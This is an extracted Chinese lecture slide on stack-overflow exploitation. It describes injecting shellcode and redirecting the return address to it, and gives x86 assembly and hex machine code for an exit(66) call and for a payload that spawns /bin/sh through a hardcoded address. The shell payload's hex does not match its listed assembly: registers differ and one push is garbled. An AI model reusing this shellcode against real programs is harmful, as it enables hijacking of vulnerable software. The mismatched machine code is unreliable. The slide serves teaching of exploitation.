

# 逆向分析
       最简单的办法就是把想执行的代码用机器码表示, 即俗称的shellcode, 将其写入程序, 然后将返回地址修改为该段shellcode的起始地址
     准备了如下两个shellc
| mov eax, 0x01; mov ebx, 66; int 0x80; |
| --- |
/bin/sh:
| xor eax, eax push eax push 0x68732f2f push 0x6e69622f mov eax, esp push eax mov edi, 0xf7e2cb30 call edi |
| --- |
| 机器码：31c050682f2f7368682f6689e050bb30bbe2f7ffd3" |
| --- |
| 机器码：b801000000bb42000000cd80 |
| --- |
21